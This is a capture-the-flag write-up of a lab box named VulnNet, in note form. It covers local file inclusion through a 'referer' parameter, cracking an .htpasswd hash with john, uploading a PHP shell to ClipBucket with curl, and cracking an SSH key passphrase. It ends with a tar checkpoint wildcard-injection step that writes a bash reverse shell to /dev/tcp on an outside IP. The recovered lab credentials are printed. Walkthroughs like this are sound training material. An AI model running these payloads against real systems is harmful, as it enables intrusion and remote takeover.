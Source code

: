 start with nmap
80
22


http 80

site uses php.

there is newsletter subcription for but it doesn't do anything.

sign in page :

http://10.10.142.232/login.html?login=admin&password=admin

test for sql injection : failed.

added vulnnet.thm in the /etc/hosts

fuff for subdomains got.

broadcast.vulnnet.thm : has basic authentication.

after some enumberation on vulnnet.thm we found a js file .

http://vulnnet.thm/js/index__d8338055.js

lets use buetifier to make readble js.

`js-beautify index__d8338055.js > index_readble.js`

in this javascript code we found a parameter `referer`

```js
    }, n.o = function(e, t) {
        return Object.prototype.hasOwnProperty.call(e, t)
    }, n.p = "http://vulnnet.thm/index.php?referer=", n(n.s = 0)
}({
    0: function(e, t, n) {
        e.exports = n("O14P")

```

simple `/etc/passwd` we got lfi.

also we found user `server-management`

http://vulnnet.thm/index.php?referer=/etc/passwd

`/etc/apache2/sites-enabled/000-default.conf` file in `/etc/apache2/.htpasswd`.

developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0

lets crack the hash.

```
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
9972761drmfsls   (?)
1g 0:00:00:17 DONE (2022-01-04 09:02) 0.05672g/s 122583p/s 122583c/s 122583C/s 9982..99686420
Use the "--show" option to display all of the cracked passwords reliably
Session completed


```

creds : `developers : 9972761drmfsls`

after loggin clipbucket presented by webpage.

clipbucket v4 is used. lets search for explot.

shell is located in 

```
curl -u developers:9972761drmfsls -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/photo_uploader.php"

```

http://broadcast.vulnnet.thm/files/photos/2022/01/04/

found ssh-backup.tar.gz file in /var/backups

unzip file got id_rsa encrypted. 

decrypt with ssh2john and john. : oneTWO3gOyac

let try server-management ssh account with key.

/var/opt/backupsrv.sh for root user.

***

privs

```language

echo " bash -c 'bash -i >& /dev/tcp/10.11.57.82/1337 0>&1'" > shell.sh

echo "" > "--checkpoint-action=exec=sh shell.sh"

echo "" > --checkpoint=1

```

